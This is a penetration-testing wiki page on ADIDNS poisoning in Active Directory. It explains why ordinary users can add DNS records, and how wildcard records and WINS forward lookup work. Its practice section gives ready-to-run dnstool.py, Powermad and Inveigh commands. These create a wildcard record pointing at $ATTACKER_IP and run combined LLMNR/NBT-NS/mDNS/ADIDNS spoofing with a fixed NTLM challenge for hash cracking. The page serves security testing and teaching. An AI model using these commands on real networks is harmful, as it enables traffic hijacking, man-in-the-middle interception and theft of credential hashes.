 # ADIDNS poisoning

## Theory

In order to function properly, Active Directory services need DNS. In that matter, Active Directory Domain Services (AD-DS) offer an integrated storage and replication service for DNS records. This is called Active Directory Integrated DNS (ADIDNS).

Just like any other domain name resolution spoofing attack, if an attacker is able to resolve requests with an arbitrary IP address, traffic gets hijacked, the attacker becomes a Man-in-the-Middle and further attacks can be operated.

Since ADIDNS zone DACL (Discretionary Access Control List) enables regular users to create child objects by default, attackers can leverage that and hijack traffic.

ADIDNS zones can be remotely edited

* with **dynamic updates** (a DNS specific protocol used by machine accounts to add and update their own DNS records). Users can create records if they don't exist, and they will have full control over it. By default, users that don't own a record will not be able to edit it, or to add another one with the same name, even if the type is different (A, AAAA, CNAME, MX, and so on).
* by **using LDAP** to create dnsNode objects. While dynamic updates can't be used to inject a wildcard DNS record, LDAP can be (only if the record doesn't already exist, which is the case by default).

### Wildcard records & WINS

> Wildcard records allow DNS to function in a very similar fashion to LLMNR/NBNS spoofing. Once you create a wildcard record, the DNS server will use the record to answer name requests that do not explicitly match records contained in the zone. ([source](https://blog.netspi.com/exploiting-adidns/#wildcard))

:bulb: In some scenarios, adding a wildcard record to the proper ADIDNS zone won't work. This is usually due to the **WINS forward lookup** being enabled on that zone. WINS forward lookup makes the DNS server send a NBT-NS Query Request to a predefined WINS server when it receives an address record query for which it doesn't know the answer. In short, it serves the same purpose as the wildcard record. This feature needs to be disabled for the wildcard record to be used.

![Domain Controller > DNS Manager > zone properties > WINS](../../../.gitbook/assets/WINS\_lookup.png)

## Practice

### WINS forward lookup

{% tabs %}
{% tab title="UNIX-like" %}
The state of WINS forward lookup can be enumerated with [dnstool.py](https://github.com/dirkjanm/krbrelayx/blob/master/dnstool.py) (Python). The entry type 65281 (i.e. "WINS") will exist if WINS forward lookup is enabled.

```bash
dnstool.py -u 'DOMAIN\USER' -p 'PASSWORD' --record '@' --action 'query' 'DomainController'
```
{% endtab %}

{% tab title="Windows" %}
The state of WINS forward lookup can be enumerated with [dnstool.py](https://github.com/dirkjanm/krbrelayx/blob/master/dnstool.py) (Python). The entry type 65281 (i.e. "WINS") will exist if WINS forward lookup is enabled.

```powershell
Get-DNSServerResourceRecord -ZoneName "DOMAIN.FQDN" -RRType "WINS"
```
{% endtab %}
{% endtabs %}

### Manual record manipulation

{% tabs %}
{% tab title="UNIX-like" %}
An awesome Python alternative to Powermad's functions is [dnstool](https://github.com/dirkjanm/krbrelayx/blob/master/dnstool.py). Theoretically, this script can be used to `add`, `modify`, `query`, `remove`, `resurrect` and `ldapdelete` records in ADIDNS.

```bash
# query a node
dnstool.py -u 'DOMAIN\user' -p 'password' --record '*' --action query $DomainController

# add a node and attach a record
dnstool.py -u 'DOMAIN\user' -p 'password' --record '*' --action add --data $AttackerIP $DomainController
```
{% endtab %}

{% tab title="Windows" %}
On Windows, the [Powermad ](https://github.com/Kevin-Robertson/Powermad)module can be used to manually add, view, edit, enable, disable or remove records and nodes. In the following examples, the wildcard (`*`) node/record is targeted but the examples should also work with other records (except things like `WPAD` that are in the [GQBL](wpad-spoofing.md#through-adidns-spoofing)).

```bash
# get the value populated in the DNSRecord attribute of a node
Get-ADIDNSNodeAttribute -Node * -Attribute DNSRecord

# creates a wildcard record, sets the DNSRecord and DNSTombstoned attributes
New-ADIDNSNode -Tombstone -Verbose -Node * -Data $ATTACKER_IP

# append, populate, or overwrite values in a DNS node attribute
Set-ADIDNSNodeAttribute -Node * -Attribute DNSRecord -Value (New-DNSRecordArray -Data $ATTACKER_IP) -Verbose

# a tombstoned record can be turned again into a valid record with the following command
Enable-ADIDNSNode -Node *

# disable (i.e. tombstone) a node
Disable-ADIDNSNode -Node *

# remove a node
Remove-ADIDNSNode -Node *

# check the wildcard record works/resolve a name
Resolve-DnsName NameThatDoesntExist
```

{% hint style="success" %}
**TL; DR**: the following command will add a new wildcard record (if it doesn't already exist) with the attacker IP set in the DNSRecord attribute

```bash
New-ADIDNSNode -Tombstone -Verbose -Node * -Data $ATTACKER_IP
```
{% endhint %}

{% hint style="warning" %}
**Warning**: in some environments, the disabling or removal of the records previously created for tests failed. The records were shown as tombstoned or nonexistant when using functions like `Get-ADIDNSNodeOwner`, `Get-ADIDNSNodeAttribute`, and so on. I think it was due to some replication issues.

However, the DNS Manager console was still showing those records and name resolution was still effective. It will probably stay an unsolved mystery for me, but testers need to keep this in mind when abusing ADIDNS.
{% endhint %}

More help on usage, support functions, parameters and attacks [here](https://github.com/Kevin-Robertson/Powermad#adidns-functions).
{% endtab %}
{% endtabs %}

{% hint style="info" %}
When adding records has no impact on name resolution or when the tools throw errors like `NoSuchObject`, it could be that the DNS zones in use are stored in the legacy `System` partition, or the `ForestDnsZones`, instead of the `DomainDnsZones` one.

This can be set with the `--legacy` or `--forest` option on dnstool.py, or with the `-Partition` argument for Powermad.
{% endhint %}

### Dynamic spoofing

Using [Inveigh](https://github.com/Kevin-Robertson/Inveigh) (Powershell), the following command will&#x20;

* operate [LLMNR, NBT-NS and mDNS spoofing](llmnr-nbtns-mdns-spoofing.md)
* operate ADIDNS spoofing
  * `combo` looks at LLMNR/NBNS requests and adds a record to DNS if the same request is received from multiple systems
  * `ns` injects an NS record and if needed, a target record. This is primarily for the GQBL bypass for wpad.&#x20;
  * `wildcard` injects a wildcard record
* set the threshold at which the combo ADIDNS spoofing mode will take effect
* enable showing NTLM challenge/response captures from machine accounts
* set the Challenge to `1122334455667788` (to [crack NTLM hashes](../credentials/cracking.md#practice) with [crack.sh](https://crack.sh/))

```
Invoke-Inveigh -ConsoleOutput Y -ADIDNS combo,ns,wildcard -ADIDNSThreshold 3 -LLMNR Y -NBNS Y -mDNS Y -Challenge 1122334455667788 -MachineAccounts Y
```

[This wiki page](https://github.com/Kevin-Robertson/Inveigh/wiki/Basics) can be really useful to help master Inveigh and its support functions

* `Clear-Inveigh` to clear Inveigh's hashtable
* `Get-Inveigh` to get data from Inveigh's hashtable
* `Stop-Inveigh` to stop all running modules
* `Watch-Inveigh` to enable real time console output

## Resources

{% embed url="https://blog.netspi.com/exploiting-adidns/" %}

{% embed url="https://blog.netspi.com/adidns-revisited/" %}

{% embed url="https://snovvcrash.rocks/2020/12/28/htb-hades.html#spoofing-active-directory-integrated-dns" %}


